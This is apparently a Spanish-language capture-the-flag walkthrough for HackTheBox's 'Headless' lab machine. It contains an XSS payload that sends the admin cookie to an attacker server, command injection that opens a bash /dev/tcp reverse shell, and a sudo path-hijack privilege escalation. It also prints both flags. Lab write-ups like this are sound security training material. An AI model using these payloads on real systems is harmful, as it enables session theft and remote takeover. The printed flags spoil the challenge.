 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Headless HackTheBox

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Puerto 5000

Cuando intentas hacer un ataque de XSS aparece lo siguiente...

```
Hacking Attempt Detected

Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.

Client Request Information:

Method: POST
URL: http://10.10.11.8:5000/support
Headers: Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.8:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 243
Origin: http://10.10.11.8:5000
Dnt: 1
Connection: close
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
```

Sabiendo que es vulnerable al XSS, con BurpSuit enviamos una peticion en algunos de los parametros que aparecen en la petcicion en mi caso "Accept-Encoding" lo cambio por lo siguiente...

```shell
<script>img = new Image(); img.src = "http://<IP>/a.php?"+document.cookie;</script>
```

Estando a la escucha con nuestro python:

```shell
sudo python3 -m http.server 80
```

Y cuando enviemos la peticion, reciviremos...

```
10.10.11.8 - - [07/May/2024 21:25:22] code 404, message File not found
10.10.11.8 - - [07/May/2024 21:25:22] "GET /a.php?is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

Por lo que tendremos su Cookie, ya que lo que le enviamos el lo envia por lo que se captura la cookie en ese momento y nosotros estando a la escucha lo capturamos...

### gobuster

```shell
gobuster dir -u <IP> -w <WORDLIST> -t 200
```

Te descubre "/dashboard" y si nos metemos hay con la cookie que tenemos, nos aparecera un panel visible...

Por lo que se ve envia una peticion al servidor por lo que se puede ejecutar comandos de alguna manera, si nos vamos al BurpSuit y capturamos la peticion de la pagina, donde aparece la fecha, podemos enlazarlo con otro comando, para ello nos haremos una "reverse shell"

```shell
date=2023-09-02; bash -c 'sh+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261'
```

```shell
nc -lvnp <PORT>
```

Y entrariamos como el usuario "dvir"

En la Home del propio usuario encontraremos la primera flag...

> user.txt (flag1)

```
46efac2d90e74839f9b61fdf92745f27
```

Para tener una shell sanitizada haremos lo siguiente...

Hacer una pseudoconsola:

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si haces `sudo -l` veras que puedes hacer como sudo sin contraseña el siguiente binario:

```shell
/usr/bin/syscheck
```

Lo unico que hace este binario es dar informacion del sistema en pequeña medida, pero si intentamos leer el binario veremos lo siguiente...

```
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Veremos que hay un archivo llamado `initdb.sh` que si se encuentra se ejecuta donde ejecutes el binario, al no existir el archivo lo creamos y dentro insertaremos lo siguiente...

```shell
sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Y estando a la escucha:

```shell
nc -lvnp <PORT>
```

Ese archivo lo llevamos a /tmp/ y dentro del mismo ejecutamos el binario como sudo para que asi inicie el .sh y nos mande una shell autenticada como root

Una vez siendo root veremos la flag...

> root.txt (flag2)

```
578b3f9666b677f815aa2c0a8f5dfe41
```
